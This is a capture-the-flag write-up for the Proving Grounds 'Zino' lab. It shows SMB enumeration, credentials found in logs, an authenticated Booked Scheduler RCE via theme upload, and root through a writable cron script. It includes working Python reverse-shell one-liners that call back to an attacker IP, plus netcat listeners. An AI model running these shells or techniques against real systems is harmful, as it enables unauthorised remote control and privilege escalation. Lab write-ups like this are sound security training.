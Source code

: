```yaml
---
title: "Proving grounds Practice: Zino"
layout: post
date: 2024-03-07 02:00
categories: writeup
---
```


Proving grounds - Zino CTF writeup.

# NMAP

```text
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3306/tcp open  mysql?
8003/tcp open  http        Apache httpd 2.4.38
```

## 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
## 445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

Found smb share.

```sh
	Sharename       Type      Comment
	---------       ----      -------
	zino            Disk      Logs
	print$          Disk      Printer Drivers
	IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
Reconnecting with SMB1 for workgroup listing.
```

```sh
naveenj@hackerspace:[10:16]~/proving_grounds/Zino$ smbclient //192.168.201.64/zino -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jul  9 15:11:49 2020
  ..                                  D        0  Tue Apr 28 09:38:53 2020
  .bash_history                       H        0  Tue Apr 28 11:35:28 2020
  error.log                           N      265  Tue Apr 28 10:07:32 2020
  .bash_logout                        H      220  Tue Apr 28 09:38:53 2020
  local.txt                           N       33  Wed Oct 25 10:11:40 2023
  .bashrc                             H     3526  Tue Apr 28 09:38:53 2020
  .gnupg                             DH        0  Tue Apr 28 10:17:02 2020
  .profile                            H      807  Tue Apr 28 09:38:53 2020
  misc.log                            N      424  Tue Apr 28 10:08:15 2020
  auth.log                            N      368  Tue Apr 28 10:07:54 2020
  access.log                          N     5464  Tue Apr 28 10:07:09 2020
  ftp
```

Downloaded local.txt file.

auth.log

```sh
Apr 28 08:16:54 zino groupadd[1044]: new group: name=peter, GID=1001
Apr 28 08:16:54 zino useradd[1048]: new user: name=peter, UID=1001, GID=1001, home=/home/peter, shell=/bin/bash
Apr 28 08:17:01 zino passwd[1056]: pam_unix(passwd:chauthtok): password changed for peter
Apr 28 08:17:01 zino CRON[1058]: pam_unix(cron:session): session opened for user root by (uid=0)
```

misc.log

```sh
naveenj@hackerspace:[10:32]~/proving_grounds/Zino$ cat misc.log 
Apr 28 08:39:01 zino systemd[1]: Starting Clean php session files...
Apr 28 08:39:01 zino CRON[2791]: (CRON) info (No MTA installed, discarding output)
Apr 28 08:39:01 zino systemd[1]: phpsessionclean.service: Succeeded.
Apr 28 08:39:01 zino systemd[1]: Started Clean php session files.
Apr 28 08:39:01 zino systemd[1]: Set application username "admin"
Apr 28 08:39:01 zino systemd[1]: Set application password "adminadmin"
```

## 8003/tcp open  http        Apache httpd 2.4.38

Booked Scheduler v2.7.5 - search for exploit using searchsploit.

Booked Scheduler 2.7.5 - Remote Command Execution (RCE) (Authenticated)   | php/webapps/50594.py

**Credentials**

`admin:adminadmin`

As per the exploit...

- Direct to the below URL and upload reverse shell or remote code execution php file.

`http://192.168.201.64:8003/booked/Web/admin/manage_theme.php`

- Trigger shell at `http://192.168.201.64:8003/booked/Web/custom-favicon.php?cmd=id`.

Python2 reverese shell

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.232",22));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

- Url encode and send the request.

```sh
naveenj@hackerspace:[10:45]~/proving_grounds/Zino$ nc -lvnp 22
listening on [any] 22 ...
connect to [192.168.45.232] from (UNKNOWN) [192.168.201.64] 51696
$ id
id
```

Initial Foothold Obtained.

## Privilege Escalation


Download and run linpeas using port 8003

```sh
*/3 *   * * *   root    python /var/www/html/booked/cleanup.py
```
Cronjon running every 3 minutes.

**Python2 reverse shell**

```sh
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.232",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

Add the reverse shell code to cleanup.py file and wait for 3 minutes to get reverse connection.

```sh
naveenj@hackerspace:[11:13]~/proving_grounds/Zino$ nc -lvnp 21
listening on [any] 21 ...
connect to [192.168.45.232] from (UNKNOWN) [192.168.201.64] 35774
# 
```

**Root Obtained**

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).